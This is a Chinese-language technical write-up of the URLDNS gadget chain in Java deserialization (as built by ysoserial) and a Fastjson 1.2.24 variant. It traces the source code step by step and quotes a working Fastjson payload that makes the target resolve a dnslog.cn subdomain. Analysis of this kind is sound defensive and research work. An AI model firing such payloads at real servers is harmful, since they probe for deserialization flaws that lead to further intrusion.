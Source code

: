 ## Java反序列化中的URLDNS链
***1.先看一下ysoserial的生成urldns的payload的代码***
![](/java/urldns/java_urldns.jpg)

***2.payload生成过程:***
* 初始化一个hashmap实例: HashMap ht = new HashMap();
* 初始化URL实例 : URL u = new URL(null, url, handler); 
* 将URL的实例作为key传入hashmap中: ht.put(u, url);
* 通过暴力反射将URL实例中的hashCode设置为-1 : Reflections.setFieldValue(u, "hashCode", -1);
* 将hashmap序列化得到payload
  

***3.反序列化过程***
* objectInputStream.readObject --> hashmap.readObject
  * ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("./dnslog.obj"));
  * Object o = objectInputStream.readObject();

* 跟进hashmap的readobject方法
![](/java/urldns/urldns_java_hashmap_readohject.jpg)

* 进入hash(key),这里的key就是对应的URL的实例对象
```
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);  //key对象这里对应的就是URL的实例对象
}
```
*  进入URL@hashCode()方法,发现只有hashCode为 -1 时才能进入hashCode(this)方法,说明构造payload时设置hashCode的原因
```
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

* 跟进hashCode(this)方法,发现这里就触发了域名的解析功能
![](/java/urldns/urldns_dnslookup.jpg)

## Fastjson反序列化中的URLDNS链
***1.先看一下fastjson的payload的代码 fastjson1.2.24 以InetAddress为例***
```
String payload ="{\"rand1\":{\"@type\":\"java.net.InetAddress\",\"val\":\"abcd.oi00cm.dnslog.cn\"}}";
Object parse = JSON.parse(payload);
```

***2.分析流***
#### 截取部分
* com.alibaba.fastjson.parser.ParserConfig(ASMDeserializerFactory asmFactory, ClassLoader parentClassLoader)
![](/java/urldns/fastjson_dnslog.jpg)


* com.alibaba.fastjson.serializer.MiscCodec.deserialze(DefaultJSONParser parser, Type clazz, Object fieldName)
![](/java/urldns/fastjson_dnslog_go.jpg)

***3.总结***

```fastjson认为dnslog的请求是无害化的,也确实是无害的,因此针对dnslog类的处理跟其他的rce模式略为不一样```

```dnslog类作为fastjson缓存白名单模式,方便加快序列化从而造成了问题```

